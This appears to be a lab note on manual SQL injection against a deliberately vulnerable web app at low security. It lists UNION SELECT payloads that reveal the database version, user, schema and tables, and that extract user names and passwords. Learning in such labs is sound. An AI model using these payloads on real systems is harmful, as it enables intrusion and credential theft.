 # Manual SQL Injection

__Security (Low)__

User Id -> 1

### Test Vulnerability

```bash
 %' or '1'='1 ```
 (Always True Cond.) [Null id with % and then always true 1=1]

### Database Version Selection-->
```bash 
%' or 0=0 union select null, version() # ```  (# represents the comment line in SQL query) [0=0 or 1=1]

### Who owns the DB? 
```bash 
%' or 0=0 union select null, user() # ```

### DB name employed to this particular site
```bash
 %' or 0=0 union select null, database() # ```

### Displaying tables as information scema
```bash 
%' and 1=0 union select null, table_name from information_schema.tables where table_name like 'user%' # ```


[guessing table name start with prefix user and then anything could be...]

```bash
 %' and 1=0 union select null, table_name from information_schema.tables # ``` [displaying all the tables]

### Interest Zone--Users Table-->
```bash
 %' and 1=0 union select null, concat(table_name,0x0a, column_name) from information_schema.columns where table_name = 'users' # ```
[0x0a for new line between table name and column name--hexadecimal code for sql]

### Extract the columns information
```bash 
%' and 1=0 union select null, concat(first_name,0x0a, last_name,0x0a,user,0x0a,password,0x0a,avatar) from users # ```
